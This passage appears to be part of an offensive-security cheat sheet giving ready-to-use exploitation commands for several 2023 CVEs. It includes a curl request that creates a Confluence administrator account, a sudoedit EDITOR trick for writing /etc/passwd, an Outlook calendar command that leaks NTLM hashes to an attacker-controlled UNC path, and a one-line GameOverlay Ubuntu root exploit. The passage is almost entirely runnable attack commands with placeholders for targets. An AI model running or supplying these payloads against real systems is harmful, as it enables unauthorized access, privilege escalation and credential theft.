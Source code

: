 ```console
$ curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://<RHOST>/setup/setupadministrator.action
```

## CVE-2023-22809: Sudo Bypass LPE

> https://medium.com/@dev.nest/how-to-bypass-sudo-exploit-cve-2023-22809-vulnerability-296ef10a1466

### Prerequisites

- Sudo version needs to be ≥ 1.8 and < 1.9.12p2.
- Limited Sudo access to at least one file on the system that requires root access.

### Example

```console
test ALL=(ALL:ALL) NOPASSWD: sudoedit /etc/motd
```

### Exploitation

```console
EDITOR="vi -- /etc/passwd" sudoedit /etc/motd
```

```console
$ sudoedit /etc/motd
```

## CVE-2023-23397: Microsoft Outlook (Click-to-Run) LPE (0-day) (PowerShell Implementation)

```cmd
PS C:\> Import-Module .\CVE-2023-23397.ps1
PS C:\> Send-CalendarNTLMLeak -recipient "<EMAIL>" -remotefilepath "\\<LHOST>\<FILE>.wav" -meetingsubject "<SUBJECT>" -meetingbody "<TEXT>"
```

## CVE-2023-32629, CVE-2023-2640: GameOverlay Ubuntu Kernel Exploit LPE (0-day)

> https://twitter.com/liadeliyahu/status/1684841527959273472?s=09

- Linux ubuntu2204 5.19.0-46-generic

```console
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

## CVE-2023-38146: ThemeBleed RCE
